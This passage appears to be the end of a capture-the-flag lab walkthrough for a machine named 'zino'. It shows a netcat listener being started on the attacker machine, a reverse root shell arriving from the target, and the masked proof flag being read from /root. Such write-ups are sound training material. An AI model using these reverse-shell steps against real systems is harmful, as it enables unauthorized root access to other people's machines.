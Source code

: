 Start a listener on the attacker machine and wait a few minutes for the back connect
```bash
$ nc -lvp 21
listening on [any] 21 ...
192.168.174.64: inverse host lookup failed: Unknown host
connect to [192.168.49.174] from (UNKNOWN) [192.168.174.64] 43914
bash: cannot set terminal process group (1380): Inappropriate ioctl for device
bash: no job control in this shell
root@zino:~# whoami
whoami
root
```

### get second flag
```
root@zino:~# cd /root
cd /root
root@zino:~# ls
ls
proof.txt
root@zino:~# cat proof.txt
cat proof.txt
e******************************8
```

Pwned! <@:-)
